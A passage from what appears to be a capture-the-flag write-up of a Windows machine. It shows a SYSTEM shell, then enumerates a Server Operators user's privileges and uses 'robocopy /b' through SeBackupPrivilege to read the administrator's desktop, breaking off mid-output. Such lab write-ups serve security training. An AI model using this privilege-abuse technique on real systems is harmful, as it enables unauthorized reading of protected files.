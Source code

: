     C:\Windows\system32>whoami
    nt authority\system



## Unintended Paths

### Read as SYSTEM

#### Enumeration

I had noted earlier that jorden was in the Server Operators group, and
that brings a handful of privileges:



    *Evil-WinRM* PS C:\Users\jorden\Documents> whoami /priv

    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                Description                         State
    ============================= =================================== =======                
    SeMachineAccountPrivilege     Add workstations to domain          Enabled
    SeSystemtimePrivilege         Change the system time              Enabled
    SeBackupPrivilege             Back up files and directories       Enabled
    SeRestorePrivilege            Restore files and directories       Enabled                
    SeShutdownPrivilege           Shut down the system                Enabled
    SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
    SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled                
    SeTimeZonePrivilege           Change the time zone                Enabled 



I'm particularly interesting in backup and restore. I can see that
jorden has `SeBackupPrivilege` and `SeRestorePrivilege`.

#### File Read

With both of these privs, I can use `robocopy` to read files (see
[PayloadsAllTheThings short
reference](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---impersonation-privileges)).



    *Evil-WinRM* PS C:\programdata\temp> robocopy /b C:\users\administrator\desktop C:\programdata\temp

    -------------------------------------------------------------------------------
       ROBOCOPY     ::     Robust File Copy for Windows
    -------------------------------------------------------------------------------

      Started : Wednesday, April 1, 2020 12:48:19 PM
       Source : C:\users\administrator\desktop\
         Dest : C:\programdata\temp\

        Files : *.*
